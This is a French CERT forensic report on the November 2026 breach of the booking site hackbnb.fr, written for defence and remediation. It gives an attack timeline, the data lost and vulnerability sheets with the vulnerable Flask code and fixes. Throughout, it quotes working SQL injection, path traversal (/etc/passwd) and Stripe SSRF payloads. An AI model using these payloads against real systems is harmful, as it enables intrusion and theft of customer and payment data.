| Champ | Valeur |
|---|---|
| Titre | Synthèse technique de l'investigation forensic de hackbnb.fr |
| Client | HackBNB (Élodie Marchand, CEO ; Karim Lefèvre, responsable technique) |
| Destinataires | Équipe de développement de la plateforme hackbnb.fr |
| Auteurs | Bastien DESPREZ, Arnaud DECOURT, Théo DEMARIA, Aiman MANCHOUT |
| Date | 13 novembre 2026 |
| Classification | Confidentiel : diffusion restreinte aux personnes chargées de corriger les vulnérabilités. Les secrets cités sont volontairement tronqués. |
Pourquoi cette étude : HackBNB a mandaté le CERT le 9 novembre 2026 après la découverte d'une revendication de compromission et d'une mise en vente de ses données sur le darkweb, publiée avant toute réponse de l'entreprise (chronologie complète en §5.2, objectifs détaillés en §2). Il fallait établir si l'intrusion était réelle et, si oui, en mesurer l'ampleur pour protéger les clients concernés et respecter les obligations réglementaires de l'entreprise.
La compromission de hackbnb.fr le 7 novembre 2026 est avérée. Les journaux Apache montrent qu'une seule adresse IP (149.102.235.40) a exploité cinq des huit vulnérabilités du rapport de test d'intrusion de juin 2026 (D1, D2, D3, D4, D8), restées non corrigées. L'attaque a duré 42 minutes, de 10:52 à 11:34. Il s'est écoulé 12 minutes entre la première injection SQL réussie et la fin de l'exfiltration.
L'attaquant, qui signe hackb3ck / Hackb3ck6000, a détourné le compte Stripe marchand de HackBNB à travers l'application. Il a ainsi extrait la liste des clients Stripe et les moyens de paiement de 624 clients (marque de carte, 4 derniers chiffres, date d'expiration), le code source du back-end et un fichier système. Il a aussi confirmé sa propre réservation sans la payer. Il a contacté HackBNB le soir même en se présentant comme chasseur de primes, puis a mis les données en vente sur un forum du darkweb le 9 novembre à 06:37, sans attendre de réponse.
Les huit vulnérabilités ont été localisées dans le code et sept ont été reproduites sur la pré-production. La huitième, D6, a été établie par audit du dépôt Git.
Actions immédiates :
Objectifs (demande du client, annexes 1 et 3) :
Périmètre :
| Élément | Détail |
|---|---|
| Production (attaquée) | https://hackbnb.fr : hors ligne depuis le 9 novembre, non testée |
| Pré-production (tests) | https://hackbnb.dashbox.cloud, déclarée identique à la production |
| Code source | Dépôt GitHub du projet, historique complet (31 commits) |
| Journaux | apache.log du 7 novembre 2026 (13 925 requêtes) |
| Annexes | E-mails (annexes 1 et 2), entretien technique (annexe 3), post darkweb (annexe 4), rapport de pentest (annexe 5) |
| Étape | Travaux | Outils |
|---|---|---|
| 1. Cadrage | Lecture des annexes, identification des comptes, IP et dates utiles | Aucun |
| 2. Analyse des logs | Import dans Loki, regroupement par IP et User-Agent, isolement des requêtes anormales (paramètres, codes 404/500, outils automatisés), corrélation avec les annexes 2 et 4 | Grafana, Loki, grep / awk |
| 3. Revue de code | Localisation de chaque défaut du rapport de pentest (fichier, ligne, cause racine) | Lecture du code, git log -S |
| 4. Recherche de secrets | Scan de tout l'historique Git | Gitleaks 8 |
| 5. Exploitation | Reproduction de chaque défaut sur la pré-production, captures requête / réponse | Burp Suite Community (Repeater, Intruder), curl |
| 6. Correction et re-test | Application des correctifs, puis rejeu des requêtes de l'attaquant (section 6, « Correctif et re-test ») | Burp Suite, curl |
Échelle de risque : celle du rapport de pentest, issue du référentiel PASSI de l'ANSSI. Le risque résulte du croisement de la difficulté d'exploitation et de l'impact :
| Impact ↓ / Exploitation → | Très difficile | Difficile | Modérée | Facile |
|---|---|---|---|---|
| Mineur | Mineur | Mineur | Important | Majeur |
| Important | Mineur | Important | Important | Majeur |
| Majeur | Important | Majeur | Majeur | Critique |
| Critique | Important | Majeur | Critique | Critique |
| ID | Vulnérabilité | Exploitation | Impact | Risque | Reproduite | Exploitée le 7/11 | Correctif |
|---|---|---|---|---|---|---|---|
| D1 | Injection SQL sur /api/rooms/ |
Facile | Critique | Critique | Oui | Oui (11:11, 11:16) | À appliquer |
| D2 | Path traversal sur /api/uploads/ |
Facile | Critique | Critique | Oui | Oui (11:18–11:19) | À appliquer |
| D3 | SSRF vers l'API Stripe | Modérée | Critique | Critique | Oui | Oui (11:19–11:23) | À appliquer |
| D4 | Secret de confirmation prévisible | Modérée | Critique | Critique | Oui | Oui (11:16, secret lu via D1) | À appliquer |
| D5 | E-mail des hôtes exposé par l'API | Facile | Important | Majeur | Oui | Exposé (non ciblé) | À appliquer |
| D6 | Clés Stripe dans le dépôt Git | Difficile* | Critique | Majeur* | Oui (audit Git) | Non observée | À appliquer |
| D7 | En-têtes de sécurité absents → XSS | Difficile | Majeur | Majeur | Oui (sans payload) | Non observée | À appliquer |
| D8 | Bannières serveur et mode debug | Très difficile | Important | Mineur | Oui | Oui (11:18, tracebacks) | À appliquer |
* Évaluation de l'annexe 5. La clé sk_test_… étant encore dans le code actuel, nous réévaluons l'exploitation en Facile, soit un risque Critique (voir D6).
Répartition (évaluation de l'annexe 5, toutes confirmées) : 4 Critiques, 3 Majeures, 0 Importante, 1 Mineure.
Constats principaux :
dirsearch, python-requests).
Sur les 13 925 requêtes du 7 novembre 2026, l'IP 149.102.235.40 en génère à elle seule 6 783 (48,7 %), entre 10:52:23 et 11:34:54. Chacune des autres IP en émet au plus 19, toutes conformes au parcours d'un client (consultation des chambres, réservation, paiement). Hors de cette IP, le journal ne contient que 14 erreurs 404 isolées (références de réservation mal saisies).
| Élément | Valeur | Source |
|---|---|---|
| Pseudonymes | hackb3ck (e-mail), Hackb3ck6000 (forum) |
Annexes 2 et 4 |
| Adresse e-mail | contact@hackb3ck.me |
Annexe 2 |
| Adresse IP | 149.102.235.40 (VPN Datacamp, sortie Prague), seule IP de l'attaque |
apache.log, géolocalisation IP |
| Navigateur | Mozilla Firefox 52.0 | User-Agent Gecko/20100101 Firefox/52.0 |
| Système d'exploitation | macOS 10.12.5 (Sierra) | User-Agent Macintosh; Intel Mac OS X 10_12_5 |
| Outils | dirsearch v0.4.2 (énumération de chemins), script Python requests 2.25.0 (exfiltration) |
User-Agents |
| Compte forum | Inscrit le 02/07/2022, 37 messages, 19 réactions | Annexe 4 |
Lien entre l'IP et le vendeur du forum : l'exemple de données publié (cus_…, nom, adresse, visa, 09, 2026, 4242) contient exactement les champs que renvoient les endpoints Stripe /v1/customers et /v1/customers/<id>/payment_methods. Or ces deux endpoints ont été interrogés via la SSRF depuis 149.102.235.40, et uniquement depuis cette IP.
Comportement : méthodique (chaque faille est validée à la main avant d'être automatisée), compétences intermédiaires (chaînage de plusieurs failles, troncature d'URL par #, outils publics). Motivation financière avec double jeu : il réclame une prime de « bug bounty » le soir de l'attaque, puis vend les données 31 heures plus tard sans attendre de réponse.

Vue Grafana Logs Drilldown (heures UTC) : pic de plus de 6 300 requêtes entre 08:52 et 09:02 UTC, soit 10:52–11:02 dans le journal.

Vue Grafana Loki : requête UNION SELECT, puis appels SSRF vers Stripe.
Samedi 7 novembre 2026 (heures du journal, +0200)
| Heure | Phase | Événement | IoC |
|---|---|---|---|
| 10:52:23 | Première connexion | Page d'accueil, puis consultation manuelle de 10 annonces | GET / 200, UA Firefox 52 / macOS |
| 10:53:03 – 10:53:21 | Sondage manuel | Valeurs limites et premiers tests d'injection, sans succès | /api/rooms/-1, /api/rooms/toto, /api/rooms/'%20OR%201=1%20-- → 404 |
| 10:53:21 – 11:00:02 | Scan automatisé | Énumération de chemins sensibles (/.git/HEAD, /admin/, /backup.sql…) : 6 093 requêtes, toutes en 404 |
UA dirsearch/v0.4.2 |
| 11:11:37 | D1 | Injection SQL réussie sur le filtre de catégorie | /api/rooms/?category=hut'%20OR%201=1%20-- → 200 |
| 11:13:37 | Préparation | Création de la réservation 85A1NBEJ |
POST /api/bookings/ 200 |
| 11:13:52 – 11:13:57 | Tentative D4 | Deux confirmations de paiement avec un secret deviné, refusées | POST …/85A1NBEJ/confirm-checkout 422 |
| 11:16:44 | D1 | UNION SELECT sur bookings, filtré sur sa réservation : lecture de son checkout_confirmation_secret |
…UNION SELECT bookings.id, bookings.reference, bookings.checkout_confirmation_secret, … FROM bookings WHERE bookings.reference = '85A1NBEJ' -- → 200 |
| 11:16:54 | D4 | Réservation confirmée sans paiement | POST …/85A1NBEJ/confirm-checkout 200 |
| 11:16:59 | Vérification | Réservation désormais « payée », lignes de paiement consultées (prérequis de D3) | GET …/checkout-lines?checkout_session_id=cs_test_… 200 |
| 11:18:49 – 11:18:54 | D8 | Noms de fichiers invalides : pages d'erreur de 23 Ko (traceback Werkzeug en mode debug) révélant l'arborescence du back | /api/uploads/?name=test.jpg, .env, /etc/passwd → 500 |
| 11:18:56 – 11:19:10 | D2 | Lecture de 4 fichiers du serveur | ?name=../app.py, ../api/bookings/bookings_api.py, ../services/stripe.py, ../../etc/passwd → 200 |
| 11:19:35 – 11:19:38 | Sondage D3 | Tests du paramètre checkout_session_id |
=test, =-1 → 404 |
| 11:19:43 | D3 | SSRF vers /v1/customers : liste des clients Stripe |
checkout_session_id=../../customers%23 → 200, 19 128 640 octets |
| 11:20:03 | D3 | Moyens de paiement d'un premier client, à la main | ../../customers/cus_ScmrFdHx8iQd86/payment_methods%23 → 200 |
| 11:23:13 – 11:23:54 | D3, exfiltration automatisée | Moyens de paiement de 623 autres clients en 41 secondes | UA python-requests/2.25.0, 623 × …/payment_methods%23 → 200 |
| 11:34:54 | Dernière connexion | Navigation sur 3 annonces | GET / 200, UA Firefox 52 |
| 23:51 | Prise de contact | E-mail à contact@hackbnb.fr : se présente en bug bounty hunter et demande une récompense. Arrivé dans les spams. |
Annexe 2 |
Lundi 9 novembre 2026
| Heure | Événement | Source |
|---|---|---|
| 06:37 | Mise en vente des données sur un forum russophone : « hackbnb.fr customers and payments leak », tags stripe, sql base |
Annexe 4 |
| 07:12 | HackBNB découvre l'e-mail et sollicite le CERT | Annexe 1 |
| 08:45 | Entretien avec le responsable technique, site mis hors ligne | Annexe 3 |
| 12:13 | Capture du post par l'équipe CTI | Annexe 4 |
| Donnée | Certitude | Preuve |
|---|---|---|
Liste des clients Stripe (identifiants cus_, noms, adresses) |
Certain | SSRF ../../customers%23 → 200, 19,1 Mo (11:19:43). Champs identiques à l'exemple du forum. |
| Moyens de paiement de 624 clients (marque, 4 derniers chiffres, expiration) | Certain | 624 identifiants cus_ distincts interrogés sur /payment_methods → 200 (11:20:03 et 11:23:13–11:23:54) |
Secret de confirmation et session Stripe de la réservation 85A1NBEJ |
Certain | UNION SELECT … WHERE bookings.reference = '85A1NBEJ' → 200 (11:16:44) |
Code source : app.py, api/bookings/bookings_api.py, services/stripe.py |
Certain | Path traversal → 200 (11:18:56–11:19:07) |
/etc/passwd du serveur |
Certain | ?name=../../etc/passwd → 200 (11:19:10) |
| Arborescence et extraits du code back (tracebacks) | Certain | 3 réponses 500 de 23 Ko en mode debug (11:18:49–11:18:54) |
| E-mail de l'hôte des annonces consultées | Quasi certain | Chaque réponse GET /api/rooms/<id> servie à l'IP contient host.email par construction du code (D5) |
Table users (e-mails, hash MD5 des mots de passe) |
Supposition | La SQLi le permettait (cf. D1), mais aucune requête UNION … FROM users n'apparaît dans le journal |
| Clé API Stripe | Non exfiltrée d'après le journal | stripe.py lu par D2 ne contient plus la clé (os.getenv), et ?name=.env a échoué (500). La clé reste compromise par ailleurs via le dépôt Git (D6). |
Chaque fiche suit la même structure : référentiels (CWE, OWASP), localisation et code vulnérable, mécanisme (cause racine), preuves sur la pré-production, impact, risque ANSSI, exploitation lors de l'attaque du 7 novembre, recommandation, puis correctif et re-test.
/api/rooms/| Champ | Valeur |
|---|---|
| CWE | CWE-89 (SQL Injection) |
| OWASP Top 10 | A03:2021 – Injection |
| Référence test | OWASP WSTG-INPV-05 |
| Localisation | back/api/rooms/rooms_api.py, ligne 18 |
Code vulnérable
if "category" in request.args: category = request.args["category"] rooms = Room.query.filter(text(f"category = '{category}'")).all()
Mécanisme : le paramètre category est concaténé directement dans une requête SQL brute (sqlalchemy.text) sans requête préparée ni paramètre bindé, permettant l'injection de clauses SQL arbitraires dans la condition WHERE.
Payload : x' OR '1'='1'-- -
| Requête | Réponse |
|---|---|
 |
 |
HTTP/2 200 OK, Content-Length: 3691 : 10 rooms renvoyées, alors qu'une catégorie inexistante (x) devrait renvoyer [] (liste vide). Preuve du contrôle de la logique SQL.
users)
Payload : x' UNION SELECT id, name, email, password_hash, 0, 0, 0, 0 FROM users-- -
| Requête | Réponse |
|---|---|
 |
 |
Les colonnes sélectionnées sont mappées positionnellement sur le modèle Room par l'ORM SQLAlchemy (id→id, name→title, email→city, password_hash→price). 3 comptes extraits :
| id | name | password_hash | |
|---|---|---|---|
| 1 | John Doe | john@doe.com | XX (valeur de seed, pas un hash réel : cf. note ci-dessous) |
| 2 | test | test@test.com | 5f4dcc3b5aa765d61d8327deb882cf99 |
| 3 | Pain perdu vendredi ! | clubquisine@guardiaschool.fr | 86afb02a7da647a644c07deaccd233e6 |
Note : le compte John Doe est initialisé dans database/seed.py avec password_hash="XX" en dur (donnée de démo, pas un hash MD5 valide) : seuls les comptes 2 et 3 illustrent le problème réel de hachage MD5 non salé.
Impact : compromission totale de la base de données (lecture arbitraire de toute table via UNION SELECT), incluant les comptes utilisateurs et leurs hash de mot de passe.
Niveau de risque (échelle ANSSI) : Exploitation Facile × Impact Critique = Critique.
Exploitée lors de l'attaque du 7 novembre : Oui. 11:11:37 : category=hut' OR 1=1 -- → 200. Puis 11:16:44 : UNION SELECT … FROM bookings WHERE bookings.reference = '85A1NBEJ' → 200, pour lire le secret de confirmation de sa réservation (cf. D4).
Recommandation : remplacer la requête SQL brute par l'ORM standard (Room.query.filter_by(category=category)) ou par une requête paramétrée bindée (text("category = :cat").bindparams(cat=category)). Cf. OWASP SQL Injection Prevention Cheat Sheet.
Observation complémentaire (hors périmètre D1-D8, à ajouter aux recommandations finales) : les hash extraits font 32 caractères hexadécimaux → format MD5, algorithme de hachage obsolète et non salé (5f4dcc3b5aa765d61d8327deb882cf99 = MD5 connu de "password"). Recommandation : migrer vers bcrypt/argon2 avec sel.
Correctif et re-test : statut : à appliquer (code non corrigé au 13/11/2026). Après correction, rejouer la requête de l'attaque : GET /api/rooms/?category=x'%20OR%20'1'='1'--%20- doit renvoyer 200 []. La requête UNION SELECT de l'attaquant ne doit plus renvoyer de données de bookings.
/api/uploads/| Champ | Valeur |
|---|---|
| CWE | CWE-22 (Improper Limitation of a Pathname to a Restricted Directory) |
| OWASP Top 10 | A01:2021 – Broken Access Control |
| Référence test | OWASP WSTG-ATHZ-01 (Testing Directory Traversal File Include) |
| Localisation | back/api/uploads/uploads_api.py, ligne 7 |
Code vulnérable
@uploads_api.route('/') def get_upload(): return send_file('uploads/' + request.args.get("name"))
Mécanisme : le paramètre name est concaténé directement à un chemin de base (uploads/) sans filtrage des séquences ../, permettant de sortir du répertoire prévu.
Payload : ../app.py
| Requête | Réponse |
|---|---|
 |
 |
HTTP/2 200 OK, Content-Type: text/x-python, Content-Disposition: inline; filename=app.py : code source complet de back/app.py renvoyé en clair.
Payload : ../../../../../etc/passwd
| Requête | Réponse |
|---|---|
 |
 |
HTTP/2 200 OK, Content-Type: application/octet-stream, Content-Disposition: inline; filename=passwd : fichier système /etc/passwd renvoyé en clair. Preuve que la faille dépasse largement le périmètre applicatif (accès au système de fichiers du serveur/conteneur).
Impact : lecture arbitraire de tout fichier accessible par le process Flask (code source, configuration, fichiers système), bien au-delà du répertoire uploads/ prévu.
Niveau de risque (échelle ANSSI) : Exploitation Facile × Impact Critique = Critique.
Exploitée lors de l'attaque du 7 novembre : Oui. 11:18:56 – 11:19:10 : lecture de ../app.py, ../api/bookings/bookings_api.py, ../services/stripe.py et ../../etc/passwd → 200.
Recommandation : valider/assainir le paramètre name (whitelist de caractères, os.path.basename()), et vérifier via os.path.realpath() que le chemin résolu reste bien dans le répertoire uploads/.
